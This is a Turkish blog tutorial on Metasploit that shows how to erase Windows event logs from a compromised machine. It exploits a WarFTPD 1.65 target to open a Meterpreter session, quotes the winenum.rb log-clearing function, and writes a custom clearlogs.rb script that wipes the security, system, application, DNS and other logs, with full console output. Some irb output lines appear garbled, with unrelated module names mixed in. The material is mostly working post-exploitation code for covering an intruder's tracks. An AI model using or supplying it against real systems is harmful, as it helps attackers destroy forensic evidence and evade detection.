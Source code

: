 ```yaml
---
draft: false

title:  'MSF Log Yönetimi'
date: '2017-06-05T13:21:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı\_winenum\_script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında\_/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb\_adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece\_# Function for clearing all event logs\_kısmıyla ilgileneceğiz." 
 
url:  /tr/msf-log-yonetimi/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı `winenum` script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında `/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb` adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece `# Function for clearing all event logs` kısmıyla ilgileneceğiz.


```bash
# Function for clearing all event logs
def clrevtlgs**()**
  evtlogs **=** **[**
    'security',
    'system',
    'application',
    'directory service',
    'dns server',
    'file replication service'
  **]**
  print_status**(**"Clearing Event Logs, this will leave and event 517"**)**
  begin
    evtlogs.each **do** |evl|
      print_status**(**"\tClearing the #{evl} Event Log"**)**
      log **=** @client.sys.eventlog.open**(**evl**)**
      log.clear
      file_local_write**(**@dest,"Cleared the #{evl} Event Log"**)**
    end
    print_status**(**"All Event Logs have been cleared"**)**
  rescue ::Exception **=>** e
    print_status**(**"Error clearing Event Log: #{e.class} #{e}"**)**

  end
end
```



Programlama ile ilgilenenler kodları ve fonksiyonun nasıl çalıştığını rahatlıkla anlayacaktır. Yukarıdaki kodların ne işe yaradığını özetle açıklayalım. `evtlogs.each do |evl|` döngüsü, Windows’a ait ‘security’, ‘system’, ‘application’, ‘directory service’, ‘dns server’ ve ‘file replication service’ loglarını sırasıyla açar ve temizler.



Şimdi, hazır script yerine yukarıdaki dosyadan örnek alarak kendi script kodumuzu oluşturalım ve kaydedelim. Bunun için Meterpreter içnde Ruby kodlamayı kullanacağız. Temizlikten önce Windows Log durumunu aşağıdaki resimden görebilirsiniz.


<!-- wp:image {"id":1001,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-00.png" alt="" class="wp-image-1001" /></figure>
<!-- /wp:image -->


Biz sadece ‘system’ loglarını temizlemek istediğimizden yukarıdaki döngü içerisinden sadece `log = client.sys.eventlog.open(‘system’)` durumunu kullanacağız.



## Bu kısımda deneme yapıyoruz



Öncelikle hedef bilgisayarda bir meterpreter shell açmış olmalıyız.


```bash
msf exploit**(**warftpd_165_user**)** > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
> Sending stage **(**2650 bytes**)**
> Sleeping before handling stage...
> Uploading DLL **(**75787 bytes**)**...
> Upload completed.
> Meterpreter session 2 opened **(**172.16.104.130:4444 -> 172.16.104.145:1246**)**
```



Ardından meterpreter shell içerisinden Ruby kodlayıcısını `irb` komutuyla çalıştırıyoruz ve aşağıdaki kodları yapıştırıyoruz.


```bash
meterpreter > irb
> Starting IRB shell
> The 'client' variable holds the meterpreter client
**>>** log **=** client.sys.eventlog.open**(**'system'**)**
**=>** #>#:0xb6779424 @client=#>, #>, #

"windows/browser/facebook_extractiptc"**=>**#, "windows/antivirus/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```



Şimdi, meterpreter içerisinde `log.clear` komutuyla logların temizlenip temizlenmediğini kontrol edelim.


```bash
**>>** log.clear
**=>** #>#:0xb6779424 @client=#>,

/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```


<!-- wp:image {"id":1002,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-01.png" alt="" class="wp-image-1002" /></figure>
<!-- /wp:image -->


Meterpreter içerisinde Ruby kodlayıcısı kullanarak basit bir log temizleme denemesi yaptık ve yaptığımız kontrolde başarılı olduk. Bu yaklaşımı kullanarak kendi Script kodlarımızı yazabiliriz.



## Tüm Logları Temizleme



Aşağıdaki kodları bir dosyaya yazarak `/usr/share/metasploit-framework/scripts/meterpreter/` klasörüne `clearlogs.rb` adıyla kaydedin.


```bash
evtlogs **=** **[**
        'security',
        'system',
        'application',
        'directory service',
        'dns server',
        'file replication service'
        **]**
print_line**(**"Clearing Event Logs, this will leave an event 517"**)**
evtlogs.each **do** |evl|
        print_status**(**"Clearing the #{evl} Event Log"**)**
        log **=** client.sys.eventlog.open**(**evl**)**
        log.clear
end
print_line**(**"All Clear! You are a Ninja!"**)**
```



Artık bu yeni oluşturduğunuz Script kodlarını yeni açtığınız Meterpreter oturumlarında çalıştırabilirsiniz.


```bash
msf exploit**(**warftpd_165_user**)** > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
> Sending stage **(**2650 bytes**)**
> Sleeping before handling stage...
> Uploading DLL **(**75787 bytes**)**...
> Upload completed.
> Meterpreter session 1 opened **(**172.16.104.130:4444 -> 172.16.104.145:1253**)**

meterpreter > run clearlogs
Clearing Event Logs, this will leave an event 517
> Clearing the security Event Log
> Clearing the system Event Log
> Clearing the application Event Log
> Clearing the directory service Event Log
> Clearing the dns server Event Log
> Clearing the file replication service Event Log
All Clear! You are a Ninja!
meterpreter > exit
```



Aşağıdaki resimde görüldüğü gibi tüm loglar temizlenmiştir. Geriye sadece 517 numaralı işlem kalmıştır. O işlemde halen meterpreter’in çalıştığı proses olduğundan halen aktif durumdadır.


<!-- wp:image {"id":1003,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-03.png" alt="" class="wp-image-1003" /></figure>
<!-- /wp:image -->


Bu yazıda, Metasploit Framework içerisinde bulunan Scriptleri örnek alarak kendi script dosyamızı yazmayı ve log temizlemeyi göstermeye çalıştık. `/usr/share/metasploit-framework/scripts/meterpreter/` klasöründe bulunan diğer script dosyalarını da incelemenizi tavsiye ediyoruz. Bu sayede elinizdeki imkanları da öğrenmiş olacaksınız.
